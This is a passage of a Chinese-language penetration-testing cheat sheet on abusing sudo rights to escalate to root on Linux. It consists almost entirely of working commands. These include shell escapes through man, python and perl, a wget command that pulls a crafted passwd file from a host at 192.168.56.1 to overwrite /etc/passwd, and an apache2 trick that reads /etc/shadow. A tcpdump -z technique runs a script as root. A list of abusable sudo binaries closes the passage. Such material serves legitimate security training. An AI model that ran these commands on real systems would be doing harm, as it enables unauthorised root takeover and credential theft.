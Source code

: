 **man**

```
man passwd
!/bin/bash
```

**wget**

```
wget http://192.168.56.1:8080/passwd -O /etc/passwd
```

**apache**

仅可查看文件，不能弹 shell

```
apache2 -f /etc/shadow
```

**tcpdump**

```bash
echo \$\'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

**python/perl/ruby/lua/php/etc**

python

```python
python -c "import os;os.system('/bin/bash')"
```

perl

```perl
exec "/bin/bash";
```

## 滥用SUDO

在渗透中，我们拿到的webshell和反弹回来的shell权限可能都不高，如果我们可以使用sudo命令访问某些程序，则我们可以使用sudo可以升级特权。

```bash
/usr/bin/find
/usr/bin/nano
/usr/bin/vim
/usr/bin/man
/usr/bin/awk
/usr/bin/less
/usr/bin/nmap ( --interactive and --script method)
/bin/more
/usr/bin/wget
/usr/sbin/apache2
```
